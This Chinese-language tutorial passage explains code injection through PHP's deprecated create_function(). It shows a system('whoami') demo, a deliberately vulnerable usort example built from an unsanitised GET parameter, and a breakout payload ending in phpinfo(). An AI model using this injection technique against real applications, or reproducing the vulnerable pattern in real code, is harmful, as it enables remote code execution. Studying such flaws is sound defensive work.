 `create_function()`函数在内部执行`eval()`函数，所以我们就可以利用这一点，来执行代码。当然正因为存在安全问题，所以在PHP 7.2 之后的版本中已经废弃了`create_function()`函数，使用匿名函数来代替。所以这里为了演示这个函数，我采用的是PHP 5 的环境。那么这个函数到底怎么用呢？

那么来看我写的一个简单的案例

```php
<?php
    $onefunc = create_function('$a','return system($a);');
	$onefunc(whoami);
?>
    
执行结果——>desktop-m61j5j6\admin
```

我们看到使用此函数为我们相当于创造了一个匿名的函数，给它赋以相应的变量，就执行了我们要执行的代码。

那么接下来我们来看一个简单的案例

```php
<?php
	error_reporting(0);
	$sort_by = $_GET['sort_by'];
	$sorter = 'strnatcasecmp';
	$databases=array('1234','4321');
	$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
	usort($databases, create_function('$a, $b', $sort_function));
?>
```

这个主要功能就是实现排序，这段代码就调用了`create_function()`函数，那么我们能否利用这个函数执行我们想要执行的代码呢？

当然可以，我们只需要在传参时将前面的符号闭合，然后输入我们想要执行的代码即可。

```php
payload='"]);}phpinfo();/*
执行payload前：$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
执行payloda后：$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
```

看到这里，你可能会有稍微疑惑，就是你闭合就闭合吧，为什么后面多了个`;}`，不知道你是否想到了这一点？

那么我就来分析一下这个，上面的那段执行代码，实际上就是一个匿名函数的创建，既然是一个函数，注意是一个函数，那么你觉得有没有花括号呢？看我如下代码

```php
<?php
    //未闭合之前
    function sort($a,$b){
    ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
	}
	//闭合之后
	function sort($a,$b){
        ' return 1 * ' . $sorter . '($a["' . $sort_by '"]);
    }
        phpinfo();/*
    }
?>
```
